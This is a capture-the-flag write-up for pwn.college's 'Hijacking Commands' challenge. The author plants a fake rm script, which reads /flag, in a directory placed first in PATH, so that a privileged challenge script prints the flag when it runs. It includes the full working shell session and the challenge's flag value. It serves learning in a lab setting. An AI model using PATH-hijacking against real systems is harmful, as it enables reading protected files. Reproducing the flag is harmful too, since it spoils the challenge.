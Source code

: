 # Pondering PATH

## Hijacking Commands
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

### Solve
**Flag:** `pwn.college{Mjw8PhOyL2Xv1EemOscpmrDVPvH.QX3cjM1wSM4AzNzEzW}`

Made one directory named hijack in which made one file named rm and concatenated that file with the command to read flag by directly mentioning it's path in /bin. Here EOF is end of file which helps us input the code in the script till end of file is reached. Then made the rm file executable, changed the path and ran /challenge/run which gave the flag. Since the path was changed so, rm command was not executed and the flag didn't get deleted by rm command so got the flag.

```bash
hacker@path~hijacking-commands:~$ mkdir ~/hijack
hacker@path~hijacking-commands:~$ cat > ~/hijack/rm << "EOF"
> #!/bin/bash
> /bin/cat /flag
> EOF
hacker@path~hijacking-commands:~$ chmod a+x ~/hijack/rm
hacker@path~hijacking-commands:~$ PATH=/hijack
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 7: rm: command not found
hacker@path~hijacking-commands:~$ PATH=~/hijack
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{Mjw8PhOyL2Xv1EemOscpmrDVPvH.QX3cjM1wSM4AzNzEzW}
```

### New Learnings
Learned to use commands even after changing the PATH by manipulation.

### References 
No references used.
